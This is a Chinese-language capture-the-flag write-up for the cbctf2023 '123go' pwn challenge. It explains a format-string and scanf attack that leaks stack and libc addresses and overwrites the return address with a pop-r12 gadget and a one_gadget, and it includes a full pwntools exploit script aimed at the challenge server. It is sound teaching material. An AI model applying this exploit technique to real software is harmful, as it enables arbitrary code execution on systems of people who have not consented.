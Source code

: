 ```yaml
---
title: cbctf2023 - 123go 
date: 2024/4/22 00:30:00
tags:
    - fmt-string
excerpt: 通过利用格式字符串和scanf漏洞，成功控制返回地址，实现代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.14|

## 解题思路

一次printf，两次scanf，每次16字节，颇有一点难度  
我一看栈的地址，因为ASLR的存在乱跳，不方便硬编码；写2个字节吧，又没有机会leak libc；
因为栈上有跳板`ptr1->ptr2->char[]str`，因此可以`*ptr1=ptr2x->retAddr`（打moectf打的），
然后再`*ptr2x=oneGadget`控制返回流为ogg；但是我检查限制条件时，发现让`r12 == 0`不满足，
故先写`pop r12;ret`的地址到返回地址上，跟一个`p64(0)`，把让r12改成0，再做ogg；
此时发现，scanf岂不是比%n好用多了？所以第一个scanf改的是跳板，第二个改的是返回地址内容

值得注意的是，scanf("%s")是不按\0截断的，并且也可以用`%8$s`这种方式指定参数序号

## EXPLOIT

```python
from pwn import *

def payload(lo:int):
    global sh
    libc = ELF('./libc-2.31.so')
    if lo:
        sh = process('123go')
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('training.0rays.club', 10039)

    # payload 1, leak stack & libc
    sh.sendafter(b'name:', b'%11$p%13$p')

    sh.recvuntil(b'llo:') # skip
    libcstartmain = int(sh.recv(14).decode(), 16)
    libcBase = libcstartmain - 243 - libc.symbols['__libc_start_main']
    print('libc leaked')

    stack = int(sh.recv(14).decode(), 16)
    retAddr = stack - 0x648 + 0x558
    print('stack leaked')

    if libcBase & 0xfff:
        print(f'Invalid libcBase ({hex(libcBase)})')
        sh.close()
        return False

    sh.sendafter(b'text', b'%13$d')
    input('type <CR> when ready') # avoid input piling
    sh.sendline(str(retAddr & 0xffffffff).encode()) # int is enough
    print('addr sent')

    popR12 = libcBase + 0xc9e91
    oneGadget = libcBase + 0xe3afe
    sh.sendafter(b'text', b'%41$s')
    input('type <CR> when ready')
    sh.sendline(p64(popR12) + p64(0) + p64(oneGadget))
    print('payload sent')

    sh.interactive()
```
